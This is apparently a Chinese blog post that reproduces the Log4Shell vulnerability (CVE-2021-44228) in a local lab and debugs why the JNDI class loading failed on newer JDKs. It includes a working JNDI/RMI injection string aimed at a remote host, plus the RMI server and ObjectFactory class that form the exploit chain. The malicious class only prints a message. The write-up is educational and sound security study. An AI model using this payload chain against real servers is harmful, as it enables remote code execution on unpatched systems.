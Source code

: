 ```yaml
---
title: Log4j CVE-2021-44228漏洞复现
date: 2024-01-23 22:43:18
tags: 
  - Java
  - 安全
---
```


# Log4j 依赖版本

```yml
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-api</artifactId>
    <version>2.14.0</version>
</dependency>
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.14.0</version>
</dependency>
```

> 也贴一下log4j的配置文件，和漏洞没有联系

```xml
<?xml version="1.0" encoding="UTF-8"?>
<Configuration status="INFO">
    <Appenders>
        <Console name="Console" target="SYSTEM_OUT">
            <PatternLayout pattern="%d{HH:mm:ss.SSS} [%t] %-5level %logger{36} - %msg%n"/>
        </Console>
    </Appenders>
    <Loggers>
        <Root level="info">
            <AppenderRef ref="Console"/>
        </Root>
    </Loggers>
</Configuration>
```

# 漏洞复现

**Log4jTest.java**

```java
package org.example;

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Log4j2Test {

  private static final Logger LOGGER = LogManager.getLogger();

  public static void main(String[] args) {
    String foo = "bar";
    String os = "${java:os}";
    LOGGER.info("foo, {}!", foo);
    LOGGER.info("os, {}!", os);
  }
}
```

上述代码执行结果:

```markdown
23:18:16.262 [main] INFO  org.example.Log4j2Test - foo, bar!
23:18:16.264 [main] INFO  org.example.Log4j2Test - os, Mac OS X 13.3.1 unknown, architecture: x86_64-64!
```

可以看到 `LOGGER.info("os, {}!", os);` 这段代码并不是将字符串打印出来，而是将其认为是代码再执行了一次，获取了系统信息。这是Log4j为了开发者使用方便而提供的一个[功能](https://logging.apache.org/log4j/2.x/manual/lookups.html)。而这也带来了安全问题。

攻击者可以构造恶意的RMI请求，向服务器发送请求并执行恶意代码。该攻击属于JNDI攻击，通过RMI请求将恶意代码注入到服务器中。

> RMI (Remote Method Invocation) 是 Java 中用于实现远程过程调用的机制。它允许在不同的 Java 虚拟机（JVM）之间进行通信，并调用远程对象上的方法，就像调用本地对象的方法一样。

**Log4jTest.java**

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Log4j2Test {

  private static final Logger LOGGER = LogManager.getLogger();

  public static void main(String[] args) {
    System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
    String rmi = "${jndi:rmi://192.168.31.120:1099/evil}";
    LOGGER.info("rmi, {}!", rmi);
  }
}
```

RMI服务端代码 **RmiServer.java**

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class RmiServer {
    public static void main(String[] args) {
        try {
            LocateRegistry.createRegistry(1099);
            Registry registry = LocateRegistry.getRegistry();

            System.out.println("Create RMI registry on port 1099");

            Reference reference = new Reference("com.example.rmi.EvilObj", "org.example.rmi.EvilObj", "");
            ReferenceWrapper wrapper = new ReferenceWrapper(reference);
            registry.bind("evil", wrapper);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

恶意代码 **EvilObj.java**

```java
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.util.Hashtable;

public class EvilObj implements ObjectFactory {

    static {
        System.out.println("evil code");
    }

    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        return new EvilObj();
    }
}
```

先起 RMI 服务，再起 **Log4jTest.java**，可以看到 **Log4jTest.java** 的控制台输出了 RMI 服务的恶意代码。

![](https://raw.githubusercontent.com/lkzc19/blasphemy.zimg/main/drinkice/2024-01-23-23-44-05.png)

# 复现时遇到的问题

## JDK版本过高

JDK在各个大版本中的某些小版本后将如 `com.sun.jndi.rmi.object.trustURLCodebase` 默认值改为 `false`，导致启动报错，按照上述代码设置将该值改为 `true`即可。

## 无法获取远程对象

这时的 EvilObj.java 代码是这样的:

```java
public class EvilObj {
  static {
    System.out.println("evil code");
  }
}
```

没有实现 `ObjectFactory` 接口。

> 看别人复现时也没有实现这个接口，但是就是可以的。

表现形式如图：

![](https://raw.githubusercontent.com/lkzc19/blasphemy.zimg/main/drinkice/2024-01-23-23-52-04.png)

可以看出对象并没有实例化出来，静态代码块也没有执行。

或者是报错

```markdown
Error looking up JNDI resource [rmi://192.168.31.120:1099/evil]. javax.naming.NamingException [Root exception is java.lang.ClassCastException: org.example.rmi.EvilObj cannot be cast to javax.naming.spi.ObjectFactory]
```

> 在写文章之前 只有第一个问题，但是复现不了，而是出现了第二个问题。但是都是同样的解决方式。

根据JDK版本过高的导致报错可以到其中源码查看对象是如何实例化的。报错的位置是 `com.sun.jndi.rmi.registry.RegistryContext.decodeObject`。

![](https://raw.githubusercontent.com/lkzc19/blasphemy.zimg/main/drinkice/2024-01-24-00-09-08.png)

1. 在这处报错其实就可以看到JDK版本过高，将该值默认关闭了，打开就好。
2. getObjectInstance 见名知意，就是实例化对象用的。

可以看到var3就是在RMI中的Reference对象。

```java
Reference reference = new Reference("com.example.rmi.EvilObj", "org.example.rmi.EvilObj", "");
```

再进入这个方法看看，这个方法可以简单的分为两部分。

![](https://raw.githubusercontent.com/lkzc19/blasphemy.zimg/main/drinkice/2024-01-24-00-19-38.png)

1. 第一部分去拿设置在 `NamingManager` 中的对象实例化工厂，去实例化对象。但是没有拿到工厂对象，是一个 `null`。
2. 所以到了第二步，第二步是去 `Reference` 对象中拿取工厂对象，然后去实例化对象。而这个其实是有点眼熟的。可以看下 `Reference` 的构造方法。


![](https://raw.githubusercontent.com/lkzc19/blasphemy.zimg/main/drinkice/2024-01-24-00-28-02.png)

该构造方法是需要传入对象工厂的。

再进入获取对象工厂的方法 `getObjectFactoryFromReference` 中看看实现，有这么一个 ObjectFactory 的强转操作，即没有实现这个接口就会报上面说的强转失败报错。

![](https://raw.githubusercontent.com/lkzc19/blasphemy.zimg/main/drinkice/2024-01-24-00-38-40.png)

获取工厂成功后，就调用实现接口的 `getObjectInstance` 方法去实例化对象。

# 参考

- [Log4j Lookups](https://logging.apache.org/log4j/2.x/manual/lookups.html)
- [Log4j高危漏洞！具体原因解析！全网第一！](https://www.bilibili.com/video/BV1FL411E7g3/?spm_id_from=333.337.search-card.all.click&vd_source=6f99bcf527e78fa16b53211c455ca619)